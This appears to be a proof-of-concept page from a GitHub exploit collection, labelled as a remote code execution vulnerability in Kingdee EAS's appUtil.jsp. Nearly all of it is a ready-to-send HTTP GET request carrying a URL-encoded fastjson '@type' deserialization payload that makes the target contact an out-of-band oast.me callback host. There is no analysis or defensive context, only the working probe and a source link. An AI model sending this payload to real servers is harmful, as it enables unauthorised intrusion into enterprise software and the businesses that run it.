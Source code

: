 # kindeeEas_appUtil_rce

product: 金蝶EAS

```
GET /easportal/tools/appUtil.jsp?list=%7B%22x%22%3A%7B%22%40type%22%3A%22java.net.Inet4Address%22%2C%22val%22%3A%22csbs1ru8ki46d67eiob0ywz51btedcjtj.oast.me%22%7D%7D HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```
from: https://github.com/wy876/POC/blob/main/%E9%87%91%E8%9D%B6/%E9%87%91%E8%9D%B6EAS%E5%AD%98%E5%9C%A8appUtil.jsp%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
